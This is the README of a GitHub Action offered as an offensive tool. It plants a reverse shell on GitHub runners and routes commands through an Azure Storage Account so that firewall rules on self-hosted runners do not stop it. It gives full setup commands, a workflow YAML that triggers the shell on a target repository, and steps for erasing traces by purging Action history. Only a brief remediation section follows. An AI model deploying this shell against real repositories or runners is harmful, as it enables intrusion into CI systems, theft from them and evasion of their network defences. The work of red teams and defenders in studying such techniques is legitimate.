


# Azure Storage Account Reverse Shell


## 🏁 What this is and major use cases

This is a GitHub Action that can send a reverse shell from a GitHub runner to any internet connected device able to run python, utilizing Azure Storage Account as a broker - bypassing firewall rules in place on self-hosted runners.

This comes in handy in two cases: 

1. 🐱‍👤 **Red Team Exercise:**
   * All outgoing and "incoming" connections from the runner are made to `*.blob.core.windows.net`, so a high level of scrutiny is needed to detect this.
   * However, you might want to not use this action directly, but adapt the code into your own ;)
3. 💻 **Attacking self-hosted runners:**
   * Self-hosted runners should be hardened and not allow any outgoing connections other than the minimum required by the GitHub documentation.
   * The endpoint `*.blob.core.windows.net` has to be whitelisted even for firewall protected self-hosted runners, since GitHub uses Azure Storage Accounts for writing job summaries, logs, workflow artifacts, and caches (see [documentation](https://docs.github.com/en/actions/hosting-your-own-runners/managing-self-hosted-runners/about-self-hosted-runners#communication-between-self-hosted-runners-and-github)).
   * This is especially interesting for non-ephemeral runners, if you want to debug other workflow runs, too.
  
And this is what an incoming shell looks like:



## How to use it

### Set up the Azure Storage Account

This is straightforward, you will need a resource group, open a Storage Account within it and then open a container within that one. Note down the names of the last two:

``` bash
az group create \
  --name <resource_group_name> \
  --location <location>

az storage account create \
  --resource-group <resource_group_name> \
  --name <storage_account_name> \
  --location <location> \
  --sku Standard_LRS

az storage container create \
  --resource-group <resource_group_name> \
  --account-name <storage_account_name>
  --name <container_name>
```

Now generate a SAS token that will allow for listing, reading, writing and deleting blobs for a limited time. This command will generate one that is valid for 30 minutes:

``` bash
az storage container generate-sas \
  --account-name <storage_account_name> \
  --name <container_name> \
  --permissions lrdw \
  --expiry $(date -u -d "+30 minutes" +"%Y-%m-%dT%H:%M:%SZ")
```

### Set up your client

> 💡 It is currently important to start the script before you trigger the reverse shell, since the script will only utilize the first incoming session after it started.

Set the values for the Storage Account, the container and the SAS token as environment variables:

``` bash
export AZ_STORAGE_ACCOUNT_NAME=<storage_account_name>
export AZ_STORAGE_CONTAINER_NAME=<container_name>
export AZ_STORAGE_SAS_TOKEN=<storage_sas_token>
```

Then run the client - it will query the Storage Account for an incoming shell every second:

``` bash
python3 client.py
```

### Set up (and trigger) the reverse shell

Include the following in your target repo into `.github/worflows/<filename>.yml` - the example is being triggered by `workflow_dispatch`, but use `push` or whatever fits the bill.

``` yml
on:
  <event_you_want_the_workflow_to_run_on>
  
jobs:
  exfil:
    runs-on: ubuntu-latest
    name: This will send a reverse shell via Azure Storage Account
    steps:
      - uses: offensive-actions/azure-storage-reverse-shell@<commit_hash_that_you_vetted_for_security_reasons>
        with:
          az-storage-account-name: '<storage_account_name>'
          az-storage-container-name: '<container_name>'
          az-storage-sas-token: '<storage_sas_token>'
```

### When you are done

**Ending the session from the agent's side:** per default, the reverse shell times out after 2 minutes of inactivity. This behaviour can be influenced by setting the `retry-interval` (default: `2` seconds) and the `max-retries` (default: `60`) when creating the  `.github/worflows/<filename>.yml`.

**Ending the session from the client's side:** Just type `exit` - the script will let the agent know and then terminate.

**Invalidate credentials:** You ~~can~~ should rotate the Storage Account keys to invalidate the SAS tokens generated earlier:

``` bash
az storage account keys renew \
  --account-name <storage_account_name> \
  --key key1

az storage account keys renew \
  --account-name <storage_account_name> \
  --key key2
```

**Housekeeping:** If needed:

* purge the GitHub Action history
* delete the workflow definition from the target repository
* delete the container, Storage Account and resource group

## How it works

* When the GitHub Action is executed on the target runner, it gathers intelligence about the context it is running in and puts it into a prompt format: `whoami@hostname:pwd$`.
* Then, it will write this to a blob in an Azure Storage Account, using the current unix timestamp as a prefix.
* On the attacker's side, a client script regularly polls for new blobs - and as soon as it finds one, it will load it and output the contents in the form of a terminal prompt.
* Then, every command written to this prompt will be written to a new blob in the Storage Account, using again the same unix timestamp as prefix.
* On the runner, the Action also polls for new blobs, loads their content (the commands from the client script), and writes the results back to the Storage Account.
* The client, pulling for new blobs, will receive this and output the result.



> ❗ This reverse shell is, due to it's nature, not fully interactive. Thus, you will lose the shell if you send a command that requires interactive input.
> An example would be: if you send `sudo -l`, and a password is needed, you cannot enter it.
> Currently, this bricks the Action run and dependent on the runner in use, the process will live a long time.

## Why I do this

1. Because it's fun.
2. To learn stuff (see point 1).
3. Because I hope you might find this fun, too, and reach out with pull requests or comments, feauture requests, etc.

## Remediation

> This is not an endorsement or sponsored, I just now learned about this in a discussion on Linkedin with the co-founder of [StepSecurity](https://www.stepsecurity.io/) and this deserves some credit 💯.

When the job run starts, one can actually detect which Storage Account will be used for caching. Then, all egress traffic to other Storage Accounts can be blocked.
There are different tools out there to harden GitHub-hosted and self-hosted runners, several of these might already include this function.

Here is an example of a malicious workflow run that was stopped: [https://github.com/step-security/github-actions-goat/actions/runs/11038173335/workflow](https://github.com/step-security/github-actions-goat/actions/runs/11038173335/workflow), make sure to check the build logs!

## Currently next planned steps

1. If timeout hits on the side of GitHub, the agent should send that information to the storage account, and the client should pick up on it.
2. The client should list all currently available shells instead of just showing the first one that is incoming after client start.
3. The agent should implement a timeout for commands that are executed, in case e.g. an interactive command has accidentaly been sent. If the timeout is hit, the agent should communicate that and resume operations.
4. The whole interaction should get logged into a file for compliance.
5. Check for windows and macOS runners, currently it's untested there.
